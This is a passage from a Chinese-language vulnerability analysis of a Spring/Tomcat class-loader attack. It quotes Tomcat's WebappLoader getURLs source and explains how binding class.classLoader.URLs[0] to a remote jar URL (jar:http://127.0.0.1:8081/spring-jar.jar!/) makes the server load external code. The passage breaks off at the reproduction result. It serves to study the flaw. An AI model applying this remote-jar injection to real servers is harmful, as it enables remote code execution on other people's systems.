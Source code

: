 
webappLoader是tomcat中的一个类，其中有一个getURLs方法：


```java
    @Override
    public URL[] getURLs() {
        ArrayList<URL> result = new ArrayList<>();
        result.addAll(localRepositories);
        result.addAll(Arrays.asList(super.getURLs()));
        return result.toArray(new URL[0]);
    }

```


注意看这里：


```java
URL[] urls = ((URLClassLoader) loader).getURLs();

```


和这里


```java
String urlStr = urls[i].toString();
URL jarURL = new URL("jar:" + urlStr + "!/");

```


现在思路明确了，只要修改urls，即可修改jarURL的值，从而加载远程jar包中的内容。


修改urls即使修改getURLs函数。


**2. URL[]对象并没有setter为什么可以对其赋值呢？**


在上文中已经说明了当变量为数组时，即使没有对应的set方法，spring也会对其进行java 内省操作。


所以通过`class.classLoader.URLs[0]`即可实现对`webappLoader`中的getURLs赋值。


就相当于执行了


```java
class.getClassLoader.getURLs = jar:http://127.0.0.1:8081/spring-jar.jar!/

```


最终漏洞复现结果：

